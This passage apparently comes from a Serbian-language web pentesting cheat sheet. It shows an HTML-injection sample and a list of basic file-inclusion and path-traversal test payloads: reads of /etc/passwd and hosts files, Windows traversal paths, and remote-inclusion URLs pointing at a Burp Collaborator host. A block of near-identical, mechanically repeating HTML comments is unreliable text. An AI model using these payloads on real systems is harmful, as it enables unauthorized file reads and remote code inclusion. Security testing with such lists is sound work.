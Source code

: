 ```html
<!-- HTML Comment with dangling markup and attribute value containing attribute value containing attribute value containing attribute value containing attribute -->
<!-- HTML Komentar sa visak markup-a i vrednoscu atributa koja sadrzi vrednost atributa koja sadrzi vrednost atributa koja sadrzi vrednost atributa koja sadrzi atribut -->

<!-- HTML Comment with dangling markup and attribute value containing attribute value containing attribute value containing attribute value containing attribute value -->
<!-- HTML Komentar sa visak markup-a i vrednoscu atributa koja sadrzi vrednost atributa koja sadrzi vrednost atributa koja sadrzi vrednost atributa koja sadrzi vrednost atributa -->

<!-- HTML Comment with dangling markup and attribute value containing attribute value containing attribute value containing attribute value containing attribute value containing closing tag -->
<!-- HTML Komentar sa visak markup-a i vrednoscu atributa koja sadrzi vrednost atributa koja sadrzi vrednost atributa koja sadrzi vrednost atributa koja sadrzi vrednost atributa koja sadrzi zatvarajucu oznaku -->

<!-- HTML Comment with dangling markup and attribute value containing attribute value containing attribute value containing attribute value containing attribute value containing self-closing tag -->
<!-- HTML Komentar sa visak markup-a i vrednoscu atributa koja sadrzi vrednost atributa koja sadrzi vrednost atributa koja sadrzi vrednost atributa koja sadrzi vrednost atributa koja sadrzi samozatvarajucu oznaku -->
```

```markup
<br><b><h1>THIS IS AND INJECTED TITLE </h1>
```

## [Uključivanje datoteka/Pretraživanje putanja](../file-inclusion/)

### Osnovni testovi

```bash
/etc/passwd
../../../../../../etc/hosts
..\..\..\..\..\..\etc/hosts
/etc/hostname
../../../../../../etc/hosts
C:/windows/system32/drivers/etc/hosts
../../../../../../windows/system32/drivers/etc/hosts
..\..\..\..\..\..\windows/system32/drivers/etc/hosts
http://asdasdasdasd.burpcollab.com/mal.php
\\asdasdasdasd.burpcollab.com/mal.php
```

## [Otvoreno preusmeravanje](../open-redirect.md) / [Forgiranje zahteva sa serverske strane](../ssrf-server-side-request-forgery/)

### Osnovni testovi
